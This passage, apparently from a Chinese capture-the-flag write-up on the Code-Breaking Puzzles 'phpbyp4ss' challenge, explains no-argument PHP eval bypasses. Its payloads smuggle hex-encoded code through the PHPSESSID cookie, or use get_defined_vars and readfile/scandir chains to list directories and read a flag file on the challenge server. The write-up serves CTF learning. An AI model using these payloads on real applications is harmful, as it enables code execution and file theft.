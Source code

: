 ```php
session_id(session_start())
```

然后就可以将想要获取的变量值转义到了`PHPSESSID`上，之后的事情就应该会比较好办。

虽然`PHPSESSID`中不允许一些`[a-zA-Z0-9_]`之外的字符串出现，但是问题应该不大

![](Code-Breaking-Puzzles-题解-学习篇\8.png)

有那么多编码格式转换的函数，这里找了一个`hex2bin`就能比较轻松的解决这个问题

最后payload

```
GET /?code=eval(hex2bin(session_id(session_start())));

PHPSESSID=7072696e745f722866696c655f6765745f636f6e74656e747328272e2e2f666c61675f7068706279703473732729293b
```

## get_defined_vars

![](Code-Breaking-Puzzles-题解-学习篇\9.png)

用于返回定义的全部变量，这样就相当于可以获取任意位置传入变量值。就可以通过`next`、`current`来操纵这个数组，就可以获取到想要的变量值。

```
http://51.158.75.42:8084/
?code=eval(next(current(get_defined_vars())));
&b=print_r(scandir('../'));print_r(file_get_contents('../flag_phpbyp4ss'));
```

> 在Apache中还可以利用`getallheaders`去获取http头，但是这里的webserver是Nginx，所以没有这个函数
>
> 另外在php 7.1下，`getenv()`函数新增了无参数时会获取服务段的env数据，这个时候也可以利用

还有个师傅的exp，学习一下

```php
code=readfile(next(array_reverse(scandir(dirname(chdir(dirname(getcwd())))))));
```

# nodechr
